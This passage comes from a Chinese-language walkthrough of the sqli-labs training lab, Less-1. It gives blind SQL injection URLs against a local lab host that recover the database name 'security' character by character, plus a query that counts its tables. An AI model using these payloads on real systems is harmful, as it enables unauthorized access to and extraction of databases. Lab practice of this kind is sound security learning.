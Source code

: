 第二个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),2,1)) = 101 --+
```

> 第二个码为 101 是 e

第三个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),3,1)) = 99 --+
```

> 第二个码为 99 是 c

第四个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),4,1)) = 117 --+
```

> 第四个码为 117 是 u

第五个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),5,1)) = 114 --+
```

> 第五个码为 114 是 r

第六个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),6,1)) = 105 --+
```

> 第六个码为 105 是 i

第七个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),7,1)) = 116 --+
```

> 第七个码 为116 是 t

第八个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),8,1)) = 121 --+
```

> 第八个码为 121 是 y

数据库名为 `security`

**爆表**

**确定当前库中表的个数**

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and (select count(*) from information_schema.tables where table_schema=database())=4 --+
```

### 2.2. Less-2

---

Refrences

- [sqli-labs](https://github.com/Audi-1/sqli-labs)
